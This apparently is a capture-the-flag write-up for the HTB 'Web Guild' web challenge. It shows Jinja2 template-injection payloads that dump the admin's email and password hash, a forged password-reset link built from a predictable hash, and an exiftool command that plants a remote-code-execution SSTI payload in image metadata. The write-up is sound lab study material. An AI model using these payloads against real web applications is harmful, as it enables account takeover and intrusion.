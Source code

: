 # Web Guild - HTB ctf - web 1000

Welcome to the Guild ! But please wait until our Guild Master verify you. Thanks for the wait

## Initial entry point - SSTI

After creating an account and submitting a random image file for the verification, we are able to create a page for our account and edit the bio. The bio uses Jinja2 templating and is vulnerable to SSTI.

I first test SSTI with {{2+2}} as my bio and "4" gets rendered on the page.

After trying multiple different SSTI payloads, RCE attempts, a look at the code lets us see what we are able to run. Since anything within the template {{}} is python, the following payloads enumerate the admin user's info.

```{{User.query.filter_by(username='admin').first()}}```

Returns: ```<User 1>```

```{{User.query.filter_by(username='admin').first().email}}```

Returns: ```3737653936786a79@master.guild```

```{{User.query.filter_by(username='admin').first().password}}```

Returns: ```scrypt:32768:8:1$gQxbef74TPLGNDcL$ae06d7782575f467a2cdd6edc68727454ee08a2f8d033fb8c1d29f735a6d7fdbeac0ee704d7c02372adbe0775e2a98c040520d124ebcb059c3075531a6b6770c```

## Privilege Escalation to Admin account

Use /forgetpassword endpoint. The following code checks to see if email is registered, then creates a link to a reset page. Because we know the admin email we can just recreate the hash on our own and visit the page:

```
@views.route("/forgetpassword", methods=["GET", "POST"])
def forgetpassword():
    if request.method == "POST":
        email = request.form.get("email")
        query = User.query.filter_by(email=email).first()
        flash("If email is registered then you will get a link to reset password!", category="success")
        if query:
            # send email the below link
            reset_url = str(hashlib.sha256(email.encode()).hexdigest())
            print(reset_url)
            new_query = Validlinks(email=email, validlink=reset_url)
            db.session.add(new_query)
            db.session.commit()
        
        return redirect(url_for("views.home"))

    return render_template("forgetpassword.html", user=current_user)
```

So I simply recreate the hash with python:

```
>>> import hashlib
>>> email = '3737653936786a79@master.guild'
>>> reset_url = str(hashlib.sha256(email.encode()).hexdigest())
>>> print(reset_url)
e407cfec1ae6a98c0635645f2bc14b3fa363c34975bfa75ddd465cbfebe8bdc0
```

Visiting /changepasswd/--hash--:

---

After changing the admin account's password, I can view their dashboard to verify the png we uploaded earlier.

---

## Admin Dashboard/Verification

Once authenticated as admin, we are authorized to perform user verification based on the png they send. The code below shows how the site determines verified users:


```
@views.route("/verify",methods=["GET", "POST"])
@login_required
def verify():
    if current_user.username == "admin":
        if request.method == "POST":
            user_id = request.form.get("user_id")
            verf_id = request.form.get("verification_id")
            query = Verification.query.filter_by(id=verf_id).first()
            
            img = Image.open(query.doc)

            exif_table={}

            for k, v in img.getexif().items():
                tag = TAGS.get(k)
                exif_table[tag]=v

            if "Artist" in exif_table.keys():
                sec_code = exif_table["Artist"]
                query.verified = 1
                db.session.commit()
                return render_template_string("Verified! {}".format(sec_code))
            else:
                return render_template_string("Not Verified! :(")
    else:
        flash("Oops", category="error")
        return redirect(url_for("views.home"))
```

The code shows that the site simply checks to see if "Artist" tag is in PNG metadata. If it is, "Verified!" pops up on page along with whatever value "Artist" is.


To get verified, find random jpg and add the "Artist" tag


```
exiftool -Artist=1 picture.jpg
```

Verified accounts:

---

Trying to login to those accounts results in a server error, too many redirects?

The final step must be accessing the flag through the "Verified" page that shows up when a user gets verified.

I try another SSTI for the "Artist" tag value to see if that gets rendered improperly on the page. I set Artist to "{{2+2}}" and the results of the verification:

---

From here I try RCE:

```exiftool -Artist="{{ config.__class__.__init__.__globals__['os'].popen('ls -la').read() }}" 1.jpeg```

Results:

---

To get the flag, I just have to change the command to "cat flag.txt".



# References/Learning

- jinja2 template syntax
	- {% ... %}
	- {{}}
- bug discovered on uber.com with jinja temp injection https://hackerone.com/reports/125980
- scrypt hash format
	- ```scrypt:N:R:P$<salt>$<hashed_password>```
		- N: The CPU/memory cost factor, which controls how expensive the computation is. The larger the value, the harder the hash is to compute.
		- R: The block size (also called the "row size").
		- P: The parallelization factor, which controls how many parallel iterations are used.
		- ```<salt>```: A random string (typically encoded in base64 or hexadecimal) that is used to ensure that the same password generates different hashes each time it's hashed.
		- ```<hashed_password>```: The actual password hash, typically the result of the scrypt function, which combines the password, salt, and other parameters.
- https://flask-login.readthedocs.io/en/latest/